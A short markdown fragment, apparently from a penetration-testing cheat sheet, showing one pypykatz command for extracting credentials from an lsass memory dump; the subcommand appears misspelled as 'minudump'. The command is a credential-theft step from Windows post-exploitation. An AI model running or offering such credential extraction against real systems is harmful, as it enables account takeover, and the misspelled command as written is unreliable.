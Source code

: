 # Pypykatz

## Dump lsass process memory with pypykatz

#### 1) Dump lsass dumpfile

    pypykatz lsa minudump lsass.DMP 
